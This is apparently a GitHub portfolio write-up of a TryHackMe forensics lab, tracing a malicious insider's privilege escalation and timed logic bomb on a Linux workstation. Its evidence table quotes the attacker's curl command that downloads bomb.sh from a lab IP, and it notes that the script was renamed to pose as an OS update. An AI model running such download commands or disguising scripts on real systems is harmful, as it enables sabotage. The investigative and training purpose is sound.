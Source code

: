 # 🧨 Logic Bomb Forensics Investigation (TryHackMe)

## 🧭 Objective
Investigate a Linux workstation used by a malicious insider to uncover signs of sabotage, privilege escalation, and a logic bomb designed to execute under specific conditions.

## 🧪 Tools & Techniques Used
- **Command-Line Tools**: `journalctl`, `grep`, `cat`, `curl`, `vi`
- **Linux Forensics**: Log review, file metadata inspection, user auditing
- **Threat Detection**: Insider threat patterns, script analysis
- **Cron Job & Script Forensics**

## 🔍 Key Findings / Evidence
| Action                     | Details                                           |
|---------------------------|---------------------------------------------------|
| 📦 Package Installed      | `/usr/bin/apt install dokuwiki`                  |
| 📁 Working Directory      | `/home/cybert`                                   |
| 👤 Suspicious User        | `it-admin`                                       |
| 🔐 Sudoers Modified       | `Dec 28 06:27:34`                                |
| 📝 Script Created         | `bomb.sh`                                        |
| 🌐 Script Source          | `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`|
| 🛠️ Renamed Script         | `/bin/os-update.sh`                              |
| 📄 Triggered File Output  | `goodbye.txt`                                    |
| ⏰ Execution Time         | Scheduled for 08:00 AM (via cron or similar)     |

## 📖 Analysis Summary
- A user named `it-admin` was created with elevated privileges.
- The user downloaded a malicious script and disguised it as a system update.
- The logic bomb was timed to execute silently and create a message file.
- Logs showed the exact timeline of suspicious privilege escalation.

## 🧠 Skills Demonstrated
- Insider threat detection
- Linux privilege escalation forensics
- Cron job and logic bomb analysis
- Timeline reconstruction via system logs

## 🧰 Real-World Application
This mirrors real IR cases involving rogue insiders or misconfigured automation. It shows how seemingly benign user actions can escalate into system-wide compromise.

## 🎓 Lessons Learned
I gained hands-on experience identifying logic bombs and investigating user abuse through log and script analysis. It helped demystify how subtle sabotage can hide in operational scripts.

## ✅ Completion Status
Completed via TryHackMe – Logic Bomb Room

